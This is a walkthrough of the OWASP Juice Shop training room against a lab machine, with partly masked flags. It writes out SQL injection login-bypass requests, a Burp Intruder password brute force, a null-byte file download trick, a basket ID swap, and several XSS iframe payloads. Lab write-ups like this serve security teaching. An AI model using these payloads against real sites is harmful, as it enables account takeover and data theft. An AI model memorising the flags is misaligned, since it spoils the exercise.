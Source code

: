 # OWASP Juice Shop


- Deploy the VM attached to this task to get started! You can access this machine by using your browser-based machine, or if you're connected through OpenVPN.

	  no answer needed

- Once the machine has loaded, access it by copying and pasting its IP into your browser; if you're using the browser-based machine, paste the machines IP into a browser on that machine.

	  no answer needed

- What's the Administrator's email address?

	- `admin@juice-sh.op`

- What parameter is used for searching? 

	- `q`

- What show does Jim reference in his review?

	- `star trek`

- Log into the administrator account!

	- Perform a login request when Burp is capturing.

		POST /rest/user/login HTTP/1.1
		Host: 10.10.122.116
		User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
		Accept: application/json, text/plain, */*
		Accept-Language: en-US,en;q=0.5
		Accept-Encoding: gzip, deflate
		Content-Type: application/json
		Content-Length: 49
		Origin: http://10.10.122.116
		Connection: close
		Referer: http://10.10.122.116/
		Cookie: io=XFm7soxYpXet9JAKAAAA; language=en; cookieconsent_status=dismiss
		{"email":"email@email.org","password":"password"}
	
	- We change this request in:

		POST /rest/user/login HTTP/1.1
		Host: 10.10.122.116
		User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
		Accept: application/json, text/plain, */*
		Accept-Language: en-US,en;q=0.5
		Accept-Encoding: gzip, deflate
		Content-Type: application/json
		Content-Length: 49
		Origin: http://10.10.122.116
		Connection: close
		Referer: http://10.10.122.116/
		Cookie: io=XFm7soxYpXet9JAKAAAA; language=en; cookieconsent_status=dismiss
		{"email":"' OR 1=1--","password":"password"}

	- And forward this request.
	- `32***0f21372b*******608************0e02a`

- Log into the Bender account!

	- Capture another login request or change the previous one to this:

		POST /rest/user/login HTTP/1.1
		Host: 10.10.122.116
		User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
		Accept: application/json, text/plain, */*
		Accept-Language: en-US,en;q=0.5
		Accept-Encoding: gzip, deflate
		Content-Type: application/json
		Content-Length: 45
		Origin: http://10.10.122.116
		Connection: close
		Referer: http://10.10.122.116/
		Cookie: io=XFm7soxYpXet9JAKAAAA; language=en; cookieconsent_status=dismiss;
		{"email":"bender@juice-sh.op'--","password":"edededededed"}

	- `fb***762a3c*******9320************d4066`

- Bruteforce the Administrator account's password!

	- For the payload, we will be using the best1050.txt from Seclists. (Which can be installed via: `apt-get install seclists`)
	- You can load the list from `/usr/share/seclists/Passwords/Common-Credentials/best1050.txt`
	- Copy another new login request, right click and Send to Intruder.
	- Change the email to `admin@juice-sh.op`.
	- Clear all the `§` symbols and add them only to the password field.
	- Load the list into BurpSuite and Start the Attack.
	- See where request (into the results tab) has `200` as Status.
	- *Tips* On the above bar of results tab you can filter results hiding 3xx, 4xx, and 5xx response code.
	- `***10d06d*******7cd809************f1ac0e`

- Reset Jim's password!

	- Logout
	- Reset Jim's password
	- `094fb***48e52*******7d05************7257`

- Access the Confidential Document!

	- Navigate to the About Us page, and hover over the "Check out our terms of use".
	- The link is `something/ftp/legal.md`
	- The `/ftp/` folder is publicly exposed!
	- Download all the files in that folder.
	- Go to home and access the flag.
	- `edf9*812*******c5fee***************50c5b`

- Log into MC SafeSearch's account!

	- `mc.safesearch@juice-sh.op`, `Mr. N00dles`
	- `66bd*ffad9e6*******003f************5d7f0`

- Download the Backup file!

	- Add the poison NULL byte to the file you would like to download.
	- e.g. `http:<TARGET_IP>/ftp/file.md.bak%2500.md`
	- `b**********579e85*06fee************13795`

- Access the administration page!

	- Open the file `/main-es2015.js`.
	- You will find a path called `administration`.
	- 403
	- Log in as admin.
	- Go to `/administration` and grab the flag.
	- `946*79936********82200************6629a0`

- View another user's shopping basket!

	- Click on `your Basket`. Capture the request with Burp.
	- Capture `GET /rest/basket/1 HTTP/1.1` request.
	- Change the number id from 1 to 2 and forward the request.
	- `41b9*7a36*******4f0ba************ce52121`

- Remove all 5-star reviews!

	- Navigate to the `http://10.10.202.127/#/administration` page again and click the bin icon next to the review with 5 stars!
	- `50c97*cc*******446d61c************2266ef`

- Perform a DOM XSS!
	
	- Input this into the search bar `<iframe src="javascript:alert('xss')">`
	- `9aa*******c30d0*a1f5bb************efe0bf`

- Perform a persistent XSS!

	- Select `Account`, then `Security and Privacy` and then `Last Login IP`.
	- Select `logout` while capturing packets.
	- Add to the request the header `True-Client-IP: <iframe src="javascript:alert(`xss`)">`
	- `149aa*c*******a8a9314***********dc5f156`

- Perform a reflected XSS!

	- Login into the admin account and navigate to the `Order History` page.
	- From there you will see a "Truck" icon, clicking on that will bring you to the track result page. You will also see that there is an id paired with the order.
	- We will use the iframe XSS, <iframe src="javascript:alert(`xss`)">, in the place of the `5267-f73dcd000abcc353`
	- Refresh the page.
	- `23cefe*********9295b261***********60a0`

- Access the /#/score-board/ page

	- `7e***174*****baa03a7************2f72d*6e`
